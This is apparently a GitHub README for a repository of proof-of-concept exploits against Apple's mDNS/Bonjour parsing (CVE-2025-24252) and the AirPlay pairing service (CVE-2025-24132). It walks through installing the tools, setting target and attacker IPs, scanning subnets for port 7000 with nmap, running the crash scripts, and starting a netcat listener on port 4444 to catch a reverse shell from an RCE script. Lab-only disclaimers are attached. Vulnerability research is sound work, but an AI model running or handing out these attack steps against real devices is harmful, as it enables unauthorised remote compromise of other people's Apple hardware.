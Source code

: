 #AIRBORNE 2-PoCs-1-repository
poc for CVE-2025-24252 &amp; CVE-2025-24132

both bugs live in Apple’s parsing of network data (especially Bonjour/mDNS and AirPlay’s TCP pairing flow)

**start with CVE-2025-24252, the mDNS TXT record one**

over mDNS (Bonjour). Triggerable via malformed TXT records.

-Install scapy and avahi on Kali

sudo apt update

sudo apt install python3-scapy avahi-daemon -y

-Start avahi (mDNS responder)

sudo systemctl start avahi-daemon

git clone https://github.com/ekomsSavior/2-PoCs-1-repository.git

-Set your attacker IP and interface on crashtest_CVE-2025-24252.py

nano crashtest_CVE-2025-24252.py (edit ip & interface)

ctrl + x, then y and finally enter to exit.

-run PoC Script 

python3 crashtest_CVE-2025-24252.py

Use tcpdump to capture traffic on the Apple device’s IP

--Only test this on your own Apple devices in a safe lab setting.

**CVE-2025-24132 – AirPlay Pairing Exploit PoC**

This bug is in the AirPlayScreen component and can trigger a heap overflow by sending malformed handshake/init packets over TCP to port 7000 on the target device.**

-Scan for AirPlay Hosts

On your attacker Kali box

nmap -p 7000 --open --script=banner <your-local-subnet>/24

TCP Malformed Packet PoC CVE-2025-24132 

low-level socket-based fuzzing PoC that can be expanded into an RCE trigger with proper payload crafting

edit script for target ip

nano PoC_CVE-2025-24132.py

edit ip, ctrl +x, then y then enter to exit nano.

run PoC

python3 PoC_CVE-2025-24132.py

Confirm the Exploitability

Check your Apple device for

  System reboots

  Pairing process freezes

  AirPlay app or UI crashes

If confirmed, we now have a heap overflow condition. 

**From Crash to Code Execution**

Trigger CVE-2025-24132 (heap overflow via AirPlay TCP pairing) to deliver a reverse shell or execute launchctl on a vulnerable Apple device.

Overflow the heap cleanly

Inject shellcode or a ROP chain

Execute remote code like a reverse shell.

-What We Know

AirPlay runs a service on port 7000/tcp

The pairing-init POST request is vulnerable when oversized

Apple TV and iOS handle pairing using a binary plist-like format, or sometimes a JSON hybrid.

The vulnerable component parses a POST with Content-Type: application/octet-stream.

edit CVE-2025-24132_RCE.py

nano CVE-2025-24132_RCE.py (edit target and attacker ip)

Before You Run:

  Start listener: nc -lvnp 4444

  Use isolated Wi-Fi

  Only run on your own devices or in a legal lab

  Jailbroken Apple TV or vulnerable device = required for execution

launch CVE-2025-24132 RCE Simulation Script

python3 CVE-2025-24132_RCE.py

DISCLAIMER-

USER ASSUMES RESPONSIBILITY WHEN UTILIZING THIS TOOL. ONLY TEST ON NETWORKS YOU HAVE EXPLICIT PERMISSION TO TEST ON.








